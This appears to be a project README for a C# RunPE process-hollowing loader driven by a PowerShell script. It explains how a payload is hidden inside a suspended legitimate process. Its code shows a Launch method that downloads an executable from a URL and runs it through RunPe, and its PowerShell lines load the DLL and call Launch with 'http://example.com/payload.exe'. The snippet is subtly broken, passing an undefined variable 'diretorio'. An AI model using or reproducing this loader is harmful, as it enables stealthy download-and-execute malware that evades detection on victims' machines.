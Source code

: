 ## Introduction
Process hollowing is yet another tool in the kit of those who seek to hide the presence of a process. The idea is rather straight forward: a bootstrap application creates a seemingly innocent process in a suspended state. The legitimate image is then unmapped and replaced with the image that is to be hidden. If the preferred image base of the new image does not match that of the old image, the new image must be rebased. Once the new image is loaded in memory the EAX register of the suspended thread is set to the entry point. The process is then resumed and the entry point of the new image is executed.

## Overview
The Loader.cs is a C# implementation of a RunPE process hollowing technique. This technique is used to inject and execute a PE (Portable Executable) payload into a legitimate process's memory space, effectively hiding its presence.
The script.ps1 likely acts as the initiating script, which either:
Downloads the compiled Loader binary.
Executes the Loader with the required parameters (e.g., URLs or paths to payloads).

## Technical Details of Loader.cs as a DLL

Compilation to DLL:

The Loader.cs code will be compiled into a .NET DLL (Dynamic Link Library).
This allows external applications, including PowerShell, to interact with its public methods using reflection or direct invocation via the .NET framework.

Exposed Methods:

Loader.cs must expose its methods, such as Launch or RunPe, as public static so they can be called from PowerShell.
For example:

```csharp

public static void Launch(string appurl, string path)
        {
            if (!File.Exists(path))
            {
                return;
            }

            using (WebClient webClient = new WebClient())
            {
                byte[] Bytes = webClient.DownloadData(appurl);
                RunPe(Bytes, diretorio, "");
            }

        }
```
    

## Interaction via PowerShell:

The PowerShell script will use the [Reflection.Assembly]::LoadFrom() or Add-Type methods to load the DLL and call its methods.

PowerShell Script (script.ps1) Integration

Here’s an example of how the PowerShell script might load and interact with the DLL:

Loading the DLL:

    $dllPath = "path\to\Loader.dll"
    $assembly = [Reflection.Assembly]::LoadFrom($dllPath)

Invoking the Launch Method:

Use the fully qualified namespace and class name (Loader.c_Loader) to call methods:

    $appUrl = "http://example.com/payload.exe"
    $path = "C:\target\process.exe"

    # Call the static method
    [Loader.c_Loader]::Launch($appUrl, $path)

Passing Parameters:

Ensure parameters like appurl (URL to the payload) and path (target process) are correctly passed when invoking methods.

        

